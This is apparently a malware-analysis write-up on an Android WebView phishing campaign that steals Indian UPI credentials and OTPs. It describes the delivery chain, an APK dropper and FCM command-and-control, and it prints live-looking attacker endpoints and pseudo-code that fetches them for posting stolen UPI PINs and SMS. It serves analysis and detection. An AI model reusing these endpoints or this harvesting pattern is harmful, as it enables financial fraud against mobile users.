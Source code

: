 ## Android WebView Payment Phishing (UPI) – Dropper + FCM C2 Pattern

This pattern has been observed in campaigns abusing government-benefit themes to steal Indian UPI credentials and OTPs. Operators chain reputable platforms for delivery and resilience.

### Delivery chain across trusted platforms
- YouTube video lure → description contains a short link
- Shortlink → GitHub Pages phishing site imitating the legit portal
- Same GitHub repo hosts an APK with a fake “Google Play” badge linking directly to the file
- Dynamic phishing pages live on Replit; remote command channel uses Firebase Cloud Messaging (FCM)

### Dropper with embedded payload and offline install
- First APK is an installer (dropper) that ships the real malware at `assets/app.apk` and prompts the user to disable Wi‑Fi/mobile data to blunt cloud detection.
- The embedded payload installs under an innocuous label (e.g., “Secure Update”). After install, both the installer and the payload are present as separate apps.

Static triage tip (grep for embedded payloads):

```bash
unzip -l sample.apk | grep -i "assets/app.apk"
# Or:
zipgrep -i "classes|.apk" sample.apk | head
```

### Dynamic endpoint discovery via shortlink
- Malware fetches a plain-text, comma-separated list of live endpoints from a shortlink; simple string transforms produce the final phishing page path.

Example (sanitised):

```
GET https://rebrand.ly/dclinkto2
Response: https://sqcepo.replit.app/gate.html,https://sqcepo.replit.app/addsm.php
Transform: "gate.html" → "gate.htm" (loaded in WebView)
UPI credential POST: https://sqcepo.replit.app/addup.php
SMS upload:           https://sqcepo.replit.app/addsm.php
```

Pseudo-code:

```java
String csv = httpGet(shortlink);
String[] parts = csv.split(",");
String upiPage = parts[0].replace("gate.html", "gate.htm");
String smsPost = parts[1];
String credsPost = upiPage.replace("gate.htm", "addup.php");
```

### WebView-based UPI credential harvesting
- The “Make payment of ₹1 / UPI‑Lite” step loads an attacker HTML form from the dynamic endpoint inside a WebView and captures sensitive fields (phone, bank, UPI PIN) which are `POST`ed to `addup.php`.
